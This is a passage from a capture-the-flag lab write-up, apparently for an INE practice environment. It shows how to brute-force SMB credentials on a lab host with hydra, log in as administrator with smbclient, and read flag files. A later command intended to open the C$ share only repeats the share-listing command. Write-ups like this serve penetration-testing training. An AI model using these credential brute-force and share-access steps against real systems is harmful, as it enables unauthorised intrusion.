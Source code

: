 - \- `dir C:\`
    
- ![77a54f436cd2f34cbdee969ec956a7fc.png](../../../_resources/77a54f436cd2f34cbdee969ec956a7fc.png)  
            - Lists the contents of the \`C:\\\` drive.  
            - Reveals \`flag2.txt\`.
    
- ![e1f91c45294f06be2bd4d5c9277b73e8.png](../../../_resources/e1f91c45294f06be2bd4d5c9277b73e8.png)  
        - ^^type C:\\flag2.txt^^
    

**HINT 3** : “SMB shares might contain hidden files. Check the available shares. (target2.ine.local)”

According to the HINT 3, let’s check the shares first and then check hidden files.

## 3\. Enumerate shares in SMB

![ed8447a10afec6306e03e5cd1b66567c.png](../../../_resources/ed8447a10afec6306e03e5cd1b66567c.png)

![f5cf37ca740c7593fb79ab72e343b9c9.png](../../../_resources/f5cf37ca740c7593fb79ab72e343b9c9.png)

When we try to enumerate SMB shares using msfconsole without any credentials, there is no result.

So, let’s move to brute force SMB service and see what we can find.

hydra -L '/usr/share/metasploit-framework/data/wordlists/common_users.txt' -P '/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt' smb://target2.ine.local

Results are shown below.

![ab364b6ba85e4533d526522d8b5ae43c.png](../../../_resources/ab364b6ba85e4533d526522d8b5ae43c.png)

So as we can see, we can find the administrator’s passwords. Let’s enumerate the shares using **smbclient**.

smbclient -L \\\\\\\\target2.ine.local\\\\ -U administrator

You need to provide the password as “pineapple”. After that, SMB shares will be shown.

![3c71b34fde413806c1742287f4b6097c.png](../../../_resources/3c71b34fde413806c1742287f4b6097c.png)

![2948496c940185e236e9bff8f4de484f.png](../../../_resources/2948496c940185e236e9bff8f4de484f.png)

Access the C$ share using the following command

smbclient -L \\\\\\\\target2.ine.local\\\\ -U administrator

.Provide the password and list the content. You can find the **flag 3** among the other files. Use “***cat flag3.txt***” to obtain the hash.

![cca0407c531fea1a405c8a700c702f1f.png](../../../_resources/cca0407c531fea1a405c8a700c702f1f.png)

![3fdd3114d3e72bffac5cb8615f6dd097.png](../../../_resources/3fdd3114d3e72bffac5cb8615f6dd097.png)

![14b5907289c6d324dee7f34854a6acb1.png](../../../_resources/14b5907289c6d324dee7f34854a6acb1.png)
